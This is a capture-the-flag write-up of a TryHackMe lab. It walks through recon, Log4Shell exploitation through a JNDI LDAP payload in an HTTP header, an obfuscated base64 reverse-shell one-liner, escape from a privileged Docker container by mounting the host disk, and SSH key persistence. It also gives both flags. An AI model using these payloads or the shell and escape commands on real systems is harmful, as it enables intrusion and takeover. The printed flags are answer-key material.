## TL;DR

In this challenge we enumerate and find `/~logs/log4j`, which gives us the ability to exploit `log4shell`.

After getting shell, we escape the container by simply mounting to `/dev/<>`, because the docker is `privileged`. we can find the root flag inside `/root/...`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with ngaios nsca
```bash
PORT   STATE SERVICE     REASON         VERSION
22/tcp open  ssh         syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fc:6b:fc:c6:a7:86:38:8f:88:84:8a:6c:89:4d:af:83 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC8kMsDwhifnbDNM/sUiZZNt68XtTJCc/RjJR5Ueih1mUpg3msldpVEcteDEEsUbMmc7tOA4sKEsS6NcTqw6EraMYxnoi3ROr9+WBOQM3lVOHWDik4d5TpfMvcIGyBLqb55mqKq2cDVO7RDDERvIN2oVJMphyVdka1mNe6/UanEadcd9WIQ1iCZ7W2ElYsxkjlmHeZcy4MEoGGKWeCL8ca5SQck56JtAM9Ah6w8jO978iMEV1LJP4kINTGXF+kO98wHZHrerGLbVXjlewhUmSdzvnz6ScK+XI5dmFkDn4fJ0SVP4GvVhzkl572BVDeWUnzESapqgRSQf1RknDdnKX768GgphKHFMxYOtGtWK5cD1ZcFEitkz0ysr/2MVnCXWGjH1pvPkMwFSGjihyiSgjdT4gB8oC6HmWb8xDM6iYmdmZzqZbMhcvEugKyNwGMAMh+tkfutS3XuqnHF1ru0RfdabPMerqCw9gtfL8XFxFCod+NITNBREYE9o9k2dPLufBs=
|   256 95:20:81:7a:02:c1:0d:c5:5f:a7:71:47:f6:31:90:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPEJ1bQ8hBI4tQeGJc3Sh3t93ncefRjIqdOHHyqJFaGryMk1ppPmO4bqTaZqhWhic5rLjq1YmqbQzC7Ptq6Czkg=
|   256 77:45:21:4d:b4:dd:97:07:24:8b:10:43:1a:5a:74:68 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDrLKIBKU1aiYzAtApqNDAhFPlNcQjOoQ/FUMI5jg9Xz
80/tcp open  nagios-nsca syn-ack ttl 61 Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `lumberjackturtle.thm` to my `/etc/hosts`.


### Exploit Log4Shell to get shell

I started with checking the website



Then I fuzzed with `ffuf`:
```bash
┌──(agonen㉿kali)-[~/thm/LumberjackTurtle]                                                                                                                   
└─$ ffuf -u "http://lumberjackturtle.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403                                               
                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                      
                                                                                                                                                             
       v2.1.0-dev                                                                                                                                            
________________________________________________                                                                                                             
                                                                                                                                                             
 :: Method           : GET                                                                                                                                   
 :: URL              : http://lumberjackturtle.thm/FUZZ                                                                                                      
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt                                                                            
 :: Follow redirects : false                                                                                                                                 
 :: Calibration      : false                                                                                                                                 
 :: Timeout          : 10                                                                                                                                    
 :: Threads          : 40                                                                                                                                    
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                  
 :: Filter           : Response status: 403                                                                                                                  
________________________________________________                                                                                                             
                                                                                                                                                             
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 154ms]                                                                         
~logs                   [Status: 200, Size: 29, Words: 6, Lines: 1, Duration: 155ms]                                                                         
:: Progress: [4750/4750] :: Job [1/1] :: 256 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

at `~logs` we can see this page:



Let's fuzz more, on `/~logs`:
```bash
┌──(agonen㉿kali)-[~/thm/LumberjackTurtle]
└─$ ffuf -u "http://lumberjackturtle.thm/~logs/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403                           

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://lumberjackturtle.thm/~logs/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

log4j                   [Status: 200, Size: 47, Words: 8, Lines: 1, Duration: 163ms]
:: Progress: [4750/4750] :: Job [1/1] :: 241 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```



We can see in the burp, this hint:
```bash
X-THM-HINT: CVE-2021-44228 against X-Api-Version
```



Okay, this is log4j on the header `X-Api-Version`.
We can use the PoC from here [https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc).
We also need to install [https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz](https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz), from here:



So, first let's install:
```bash
┌──(.venv)─(agonen㉿kali)-[~/thm/LumberjackTurtle/log4j-shell-poc]
└─$ curl https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  177M  100  177M    0     0  2967k      0  0:01:01  0:01:01 --:--:-- 2878k
                                                                                                                                                             
┌──(.venv)─(agonen㉿kali)-[~/thm/LumberjackTurtle/log4j-shell-poc]
└─$ tar -xf jdk-8u181-linux-x64.tar.gz 
                                                                                                                                                             
┌──(.venv)─(agonen㉿kali)-[~/thm/LumberjackTurtle/log4j-shell-poc]
└─$ mv jdk1.8.0_181/ jdk1.8.0_20/
``` 



Now, we execute the exploit:
```bash
──(.venv)─(agonen㉿kali)-[~/thm/LumberjackTurtle/log4j-shell-poc]
└─$ python3 poc.py --userip 192.168.164.248 --webport 8000 --lport 1337

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://192.168.164.248:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

We'll send the exploit in the header using burp suite:
```bash
${jndi:ldap://192.168.164.248:1389/a}
```



and we got the reverse shell



I pasted the payload from `penelope` for easier shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```

Inside `/opt` we can find the flag:
```bash
bash-4.4# ls -la /opt
total 12
drwxr-xr-x    1 root     root          4096 Dec 11  2021 .
drwxr-xr-x    1 root     root          4096 Dec 29 21:38 ..
-rw-r--r--    1 root     root            19 Dec 11  2021 .flag1
```



and grab it:
```bash
bash-4.4# cat /opt/.flag1 
THM{LOG4SHELL_FTW}
```

### Docker escape using mount and find root flag inside /root/...

First, we check for user id, we can see we are the root, also we can easily notice we are inside docker container:
```bash
bash-4.4# id                                                                       
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
bash-4.4# ls -la /
total 1008
drwxr-xr-x    1 root     root          4096 Dec 29 21:02 .
drwxr-xr-x    1 root     root          4096 Dec 29 21:02 ..
-rwxr-xr-x    1 root     root             0 Dec 13  2021 .dockerenv
drwxr-xr-x    1 root     root          4096 Dec 11  2021 app
drwxr-xr-x    1 root     root          4096 Dec 11  2021 bin
drwxr-xr-x   12 root     root          3780 Dec 29 20:40 dev
drwxr-xr-x    1 root     root          4096 Dec 13  2021 etc
drwxr-xr-x    2 root     root          4096 Dec 20  2018 home
drwxr-xr-x    1 root     root          4096 Dec 11  2021 lib
drwxr-xr-x    5 root     root          4096 Dec 20  2018 media
drwxr-xr-x    2 root     root          4096 Dec 20  2018 mnt
drwxr-xr-x    1 root     root          4096 Dec 11  2021 opt
dr-xr-xr-x  244 root     root             0 Dec 29 20:40 proc
drwx------    2 root     root          4096 Dec 20  2018 root
drwxr-xr-x    1 root     root          4096 Dec 29 21:00 run
drwxr-xr-x    1 root     root          4096 Dec 11  2021 sbin
drwxr-xr-x    2 root     root          4096 Dec 20  2018 srv
dr-xr-xr-x   13 root     root             0 Dec 29 20:40 sys
drwxrwxrwt    1 root     root          4096 Dec 29 21:04 tmp
drwxr-xr-x    1 root     root          4096 Dec 21  2018 usr
drwxr-xr-x    1 root     root          4096 Dec 20  2018 var
```

Then, I checked for block devices:
```bash
bash-4.4# find /dev -type b
/dev/nvme2n1
/dev/nvme1n1
/dev/nvme0n1p1
/dev/nvme0n1
/dev/loop7
/dev/loop6
/dev/loop5
/dev/loop4
/dev/loop3
/dev/loop2
/dev/loop1
/dev/loop0
bash-4.4# lsblk
NAME        MAJ:MIN RM SIZE RO TYPE MOUNTPOINT
nvme0n1     259:0    0  40G  0 disk 
└─nvme0n1p1 259:1    0  40G  0 part /etc/hosts
nvme1n1     259:2    0   1G  0 disk 
nvme2n1     259:3    0   1G  0 disk
```

we can see `/dev/nvme0n1p1` is mounted to `/etc/hosts`.



Let's umount this block device, and then mount it to folder, to make us the whole file system accessible.
```bash
bash-4.4# umount /dev/nvme0n1p1                                                                                                            
bash-4.4# mkdir /tmp/LOL -p                                                                                                                                  
bash-4.4# mount /dev/nvme0n1p1 /tmp/LOL
```



Now, we can chroot to this folder:
```bash
chroot /tmp/LOL
```



we can see we are the root on the machine.
Le'ts add our public ssh key to `authorized_keys`, first generate:
```bash
┌──(agonen㉿kali)-[~/thm/LumberjackTurtle]                                                                                                                   
└─$ ssh-keygen -t rsa -b 2048 -f ./key -q -N ""                                                                                                              
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/LumberjackTurtle]                                                                                                                   
└─$ cat key.pub | xclip -sel clip
```

Next, insert the public key on the remote machine:
```bash
root@81fbbf1def70:/# echo -e 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCCdVBGhxIph3b4rqXj8V8auNwc6JT3LkwhvLcq8iVWHKQWk5dsomR1pFmpVt8yctcDhaFdx/jyJ9yTvUcqiTG8Rvu51AgTk1dQNpx/lKsTiJ1OuY1+PQPoZ1876uAusl+qDgldlc4Himp6so4zVmfitzclZ0y9koI8Hydjo9dlHRAVr4Wt0+zYw30BF6FFiLVvqqUbFyhy6ZtLGZaTrkAkoFb4n3+WnA+5iR8AOnClxb1nyQFRB+k37tkPnriPxaq2o7ueOMqsCfpKxAQMnK1gI6zXmi5BcnG1j1tR3zhtFauBTWtDp4NawdLsF0zwViDGwy/a5ZY9kpgRqQJtlEBT agonen@kali' >> /root/.ssh/authorized_keys
```

Now, we can login via ssh:
```bash
ssh root@lumberjackturtle.thm -i ./key
```



I thought we can grab the root flag:
```bash
root@ip-10-67-162-133:~# ls -la
total 44
drwx------  6 root root 4096 Dec 29 21:21 .
drwxr-xr-x 22 root root 4096 Dec 29 20:40 ..
drwxr-xr-x  2 root root 4096 Dec 13  2021 ...
-rw-------  1 root root 1484 Dec 29 21:30 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 May 24  2025 .cache
drwx------  3 root root 4096 Dec 29 21:21 .gnupg
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwx------  2 root root 4096 Dec 13  2021 .ssh
-rw-------  1 root root  966 Jun  5  2025 .viminfo
-r--------  1 root root   29 Dec 13  2021 root.txt
root@ip-10-67-162-133:~# cat root.txt 
Pffft. Come on. Look harder.
```



However, the root flag isn't there. Wait, what is this `...` folder? this is unusual.
```bash
root@ip-10-67-162-133:~# ls -la ...
total 12
drwxr-xr-x 2 root root 4096 Dec 13  2021 .
drwx------ 6 root root 4096 Dec 29 21:21 ..
-r-------- 1 root root   26 Dec 13  2021 ._fLaG2
```



we can grab the root flag
```bash
root@ip-10-67-162-133:~# cat .../._fLaG2 
THM{C0NT41N3R_3SC4P3_FTW}
```
### Privilege Escalation to Root


